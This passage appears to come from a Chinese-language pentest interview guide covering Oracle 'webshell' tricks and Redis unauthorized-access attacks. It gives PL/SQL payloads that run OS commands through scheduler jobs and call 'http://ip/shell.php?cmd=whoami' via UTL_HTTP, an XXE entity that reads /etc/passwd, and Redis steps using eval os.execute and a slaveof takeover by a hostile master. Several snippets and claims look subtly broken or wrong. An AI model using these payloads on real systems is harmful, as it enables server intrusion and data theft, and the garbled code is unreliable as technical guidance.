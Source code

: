 



#### 4. Oracle WEBSHELL

```plsql
CREATE TABLE shell (cmd VARCHAR2(200));
INSERT INTO shell VALUES('HOST whoami');

DECLARE 
  output VARCHAR2(200);  
BEGIN
  EXECUTE IMMEDIATE 'BEGIN dbms_scheduler.run_job(''SHELLJOB'', NULL, TRUE); END;' USING OUT output;
  dbms_output.put_line(output); 
END;
/

- 使用UTL_HTTP访问外部URL执行命令:
BEGIN
UTL_HTTP.request('http://ip/shell.php?cmd=whoami');
END;  

- 使用SCHEDULER JOB执行OS命令:
BEGIN
DBMS_SCHEDULER.CREATE_JOB (
job_name => 'shelljob',
job_type => 'EXECUTABLE',
job_action => '/bin/bash',  
enabled => TRUE);
COMMIT;
END;  

- 使用DBMS_XSLPROCESSOR XML外部实体注入:
<!DOCTYPE x [ <!ENTITY % ext SYSTEM "file:///etc/passwd"> %ext; ]>   
<p>&#x25a0;</p> 
```

### 3. redis未授权， redis 怎么去做攻击，主从复制利用条件，为什么主从复制可以做到拿 shell，原理是什么，主从复制会影响业务吗，主从复制的原理是什么？  


**Redis未授权访问可进行如下攻击:**

1. 直接执行系统命令:使用 redis 客户端执行 config set dir /etc; config get dir 等命令读取系统文件;使用 eval "os.execute('whoami')" 0 执行系统命令。
2. 主从复制利用:redis 默认开启主从复制,可将恶意redis主服务器的地址添加到 redis.conf 的 slaveof 参数,使得目标 redis 成为恶意主服务器的从服务器,同步恶意数据。
3. 数据操纵:删除key 等操作破坏业务数据。

**主从复制利用条件:**

1.  目标 redis 开启主从复制功能(默认开启)
2.  攻击者控制一台 redis 主服务器
3.  目标 redis 可以连接到攻击者控制的redis 主服务器
